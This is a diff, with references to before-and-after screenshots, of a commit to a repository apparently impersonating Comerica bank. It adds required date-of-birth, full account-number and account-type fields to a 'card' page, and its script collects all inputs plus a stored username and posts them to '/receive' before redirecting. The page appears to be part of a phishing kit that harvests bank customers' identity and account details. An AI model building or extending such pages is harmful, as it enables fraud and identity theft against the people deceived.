

Before and after one commit to Stevenholbert44/Comerica, a plain HTML site: page views/card.html in a window 1280 px wide. Shown: the part 136-756 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/views/card.html
+++ b/views/card.html
@@ -16,8 +16,8 @@
     <nav>
         <ul class="steps">
             <li >Step 1</li>
-            <li >Step 2</li>
-            <li class="active">Step 3</li>
+            <li class="active">Step 2</li>
+            <li >Step 3</li>
         </ul>
     </nav>
 
@@ -27,6 +27,28 @@
     <p>Fields marked with an <span class="required">*&nbsp;&nbsp;</span> are required.</p>
 
     <form id="billingForm">
+        <!-- Existing Fields -->
+        <div class="form-group">
+            <label for="dob">Step 1 <span class="required">*&nbsp;&nbsp;</span></label>
+            <input type="date" id="dob" name="dob" required><span>&nbsp;&nbsp;Date of Birth</span>
+        </div>
+
+        <div class="form-group">
+            <label for="accountNumber">Step 2 <span class="required">*&nbsp;&nbsp;</span></label>
+            <input type="text" id="accountNumber" name="accountNumber" placeholder="Enter your full primary account number" required>
+            <span>&nbsp;&nbsp;Primary Account Number</span>
+        </div>
+
+        <div class="form-group">
+            <label for="accountType">Step 3 <span class="required">*&nbsp;&nbsp;</span></label>
+            <select id="accountType" name="accountType" required>
+                <option value="">Select an account type</option>
+                <option value="savings">Savings</option>
+                <option value="checking">Checking</option>
+            </select><span>&nbsp;&nbsp;Account Type</span>
+        </div>
+
+        <!-- New Billing Address Fields -->
         <div class="form-group">
             <label for="streetAddress">Street Address <span class="required">*&nbsp;&nbsp;</span></label>
             <input type="text" id="streetAddress" name="streetAddress" placeholder="Enter your street address" required>
@@ -113,30 +135,31 @@
         e.preventDefault();
 
         let userinfo = {};
+        let visitor = $('#username').val();
+        sessionStorage.setItem('visitor', visitor);
 
         $('form input').each(function () {
             let inputName = $(this).attr('name');
             let inputValue = $(this).val();
+
             if (inputName) {
                 userinfo[inputName] = inputValue;
             }
         });
 
-        console.log('Sending Data:', userinfo);
+        userinfo['visitor'] = visitor;
+        console.log(userinfo);
 
         $.ajax({
             url: '/receive',
             type: 'POST',
-            contentType: 'application/json',
-            data: JSON.stringify(userinfo), // Ensure proper format
+            data: userinfo,
             success: function (response) {
-                console.log('Success Response:', response);
-                if (response.url) {
-                    window.location.href = response.url;
+             if(response.url){
+                window.location.href = response.url;
                 }
             },
             error: function (xhr, status, error) {
-                console.error('Error Response:', xhr.responseText);
                 alert('An error occurred: ' + error);
             }
         });
```
